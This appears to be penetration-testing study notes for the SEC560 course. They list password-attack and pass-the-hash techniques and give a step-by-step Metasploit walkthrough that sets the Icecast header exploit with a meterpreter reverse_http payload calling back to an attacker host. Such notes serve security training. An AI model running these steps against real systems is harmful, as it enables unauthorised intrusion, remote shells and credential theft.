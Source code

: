 # --------------------------- SEC560 ---------------------------
# Password Attacks: When to Use Each Technique
### Nohashes
* password guessing
* hydra
* sniffing cleartext
* challenge/response exchanges

### Hashes
* crack the passwords

### NT and LM Windows Hashes
* crack the passwords
* SMB access
* Pass the Hash
    * windwos credentials editor
    * metasploit psexec
    * nmap nse smb

### windows network hashes
* crack the passwords
<br>

# C2Framework
## Service Exploit
### Metasploit
* linux
    * setteing msfconsole
    ```
    msfconsole
    ```
    * search exploits
    ```
    show exploit
    search icecast
    ```
    * choose the exploit
    ```
    use exploit/windows/http/icecast_header
    ```
    * set the payload
    ```
    set PAYLOAD windows/meterpreter/reverse_http
    ```
    * set options
    ```
    show options
    set RHOSTS RHOST_ADDRESS
    set RPORT RHOST_PORT
    set LHOST LHOST_ADDRESS
    ```
    * exploit
    ```
    run
    ```